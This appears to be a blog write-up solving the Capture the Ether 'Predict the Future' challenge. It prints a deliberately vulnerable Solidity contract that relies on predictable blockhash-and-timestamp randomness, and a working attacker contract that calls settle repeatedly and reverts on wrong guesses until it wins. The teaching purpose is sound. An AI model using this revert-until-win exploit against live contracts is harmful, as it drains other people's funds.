 ```yaml
---
title: Capture the Ether (RareSkills Repo) - Predict the Future - Solution
date: '2023-11-26'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Capture the Ether - Predict the Future CTF
---
```


# Capture the Ether (RareSkills Repo) - Predict the Future - Solution

## Contract

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract PredictTheFuture {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    constructor() payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == address(0));
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)))) % 10;

        guesser = address(0);
        if (guess == answer) {
            (bool ok,) = msg.sender.call{value: 2 ether}("");
            require(ok, "Failed to send to msg.sender");
        }
    }
}
```

## Exploit

Note that `answer` has to be an integer between 0 and 9 because it is computed modulo 10. Therefore, we can lock in any guess, e.g., 0, and spam the contract by calling `settle` multiple times across multiple blocks. Notice that because `settle` will reset `guesser` to the zero address, we need to ensure the transaction reverts if we guessed wrong. (Otherwise, we'd be required to always call `lockInGuess` before calling `settle`. In particular, we'd be required to pay 1 ether for each attempt, making our spamming strategy unprofitable.)

We can conveniently execute this attack in Remix using the attacker contract below.

NOTE: `lockInGuess` must be called via the attacker contract to pass `require(msg.sender == guesser)` during settlement.

```solidity
//SPDX-License-Identifier: UNLICENSE
pragma solidity ^0.8.13;

import "./PredictTheFuture.sol";

contract ExploitContract {
    PredictTheFuture public predictTheFuture;

    constructor(PredictTheFuture _predictTheFuture) {
        predictTheFuture = _predictTheFuture;
    }

    receive() external payable {}

    function lockInGuess() external payable {
        predictTheFuture.lockInGuess{value: 1 ether}(0);
    }

    function attack() external {
        predictTheFuture.settle();
        require(predictTheFuture.isComplete(), "Exploit failed");
    }
}
```
